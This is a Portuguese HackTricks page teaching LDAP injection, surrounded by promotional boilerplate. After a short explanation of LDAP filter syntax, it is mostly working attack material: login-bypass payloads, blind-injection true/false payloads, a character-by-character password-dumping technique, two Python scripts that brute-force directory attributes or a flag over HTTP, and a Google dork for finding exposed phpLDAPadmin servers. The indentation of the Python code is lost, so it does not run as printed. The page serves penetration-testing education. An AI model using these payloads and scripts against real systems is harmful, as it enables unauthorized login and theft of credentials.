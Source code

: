 # Injeção LDAP

## Injeção LDAP

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os repositórios** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se você está interessado em **carreira de hacking** e hackear o inhackeável - **estamos contratando!** (_fluência em polonês escrita e falada necessária_).

{% embed url="https://www.stmcyber.com/careers" %}

## Injeção LDAP

### **LDAP**

**Se você deseja saber o que é LDAP, acesse a seguinte página:**

{% content-ref url="../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

A **Injeção LDAP** é um ataque direcionado a aplicações web que constroem declarações LDAP a partir da entrada do usuário. Isso ocorre quando a aplicação **não sanitiza corretamente** a entrada, permitindo que os atacantes **manipulem declarações LDAP** por meio de um proxy local, potencialmente resultando em acesso não autorizado ou manipulação de dados.

{% file src="../.gitbook/assets/en-blackhat-europe-2008-ldap-injection-blind-ldap-injection.pdf" %}

**Filtro** = ( filtercomp )\
**Filtercomp** = and / or / not / item\
**And** = & filterlist\
**Or** = |filterlist\
**Not** = ! filter\
**Filterlist** = 1\*filter\
**Item**= simple / present / substring\
**Simple** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Present** = attr = \*\
**Substring** = attr ”=” \[initial] \* \[final]\
**Initial** = assertionvalue\
**Final** = assertionvalue\
**(&)** = TRUE Absoluto\
**(|)** = FALSE Absoluto

Por exemplo:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

Você pode acessar o banco de dados, que pode conter informações de vários tipos diferentes.

**OpenLDAP**: Se 2 filtros chegarem, apenas executa o primeiro.\
**ADAM ou Microsoft LDS**: Com 2 filtros, eles lançam um erro.\
**SunOne Directory Server 5.0**: Executa ambos os filtros.

**É muito importante enviar o filtro com a sintaxe correta, ou um erro será lançado. É melhor enviar apenas 1 filtro.**

O filtro deve começar com: `&` ou `|`\
Exemplo: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Então: `(&(objectClass=`**`*)(ObjectClass=*))`** será o primeiro filtro (o executado).

### Bypass de Login

O LDAP suporta vários formatos para armazenar a senha: clara, md5, smd5, sh1, sha, crypt. Portanto, pode ser que, independentemente do que você inserir na senha, ela seja hashada.
```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```
#### Listas

* [LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_FUZZ.txt)
* [Atributos LDAP](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt)
* [Atributos LDAP PosixAccount](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### Injeção LDAP Cega

Você pode forçar respostas Falsas ou Verdadeiras para verificar se algum dado é retornado e confirmar uma possível Injeção LDAP Cega:
```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```
#### Despejar dados

Você pode iterar sobre as letras ascii, dígitos e símbolos:
```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```
#### **Descobrir campos LDAP válidos**

Os objetos LDAP **contêm por padrão vários atributos** que podem ser usados para **salvar informações**. Você pode tentar **forçar a entrada em todos eles para extrair essas informações**. Você pode encontrar uma lista de [**atributos LDAP padrão aqui**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt).
```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
value = ""
finish = False
while not finish:
for char in alphabet: #In each possition test each possible printable char
query = f"*)({attribute}={value}{char}*"
data = {'login':query, 'password':'bla'}
r = requests.post(url, data=data, proxies=proxy)
sys.stdout.write(f"\r{attribute}: {value}{char}")
#sleep(0.5) #Avoid brute-force bans
if "Cannot login" in r.text:
value += str(char)
break

if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
finish = True
print()
```
#### **Injeção LDAP Blind Especial (sem "\*")**
```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
print("[i] Looking for number " + str(i))
for char in alphabet:
r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
if ("TRUE CONDITION" in r.text):
flag += char
print("[+] Flag: " + flag)
break
```
### Dorks do Google
```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```
### Mais Cargas Úteis

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection" %}

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se você está interessado em **carreira de hacking** e hackear o inhackeável - **estamos contratando!** (_fluência em polonês escrita e falada necessária_).

{% embed url="https://www.stmcyber.com/careers" %}

<details>

<summary><strong>Aprenda hacking AWS de zero a herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
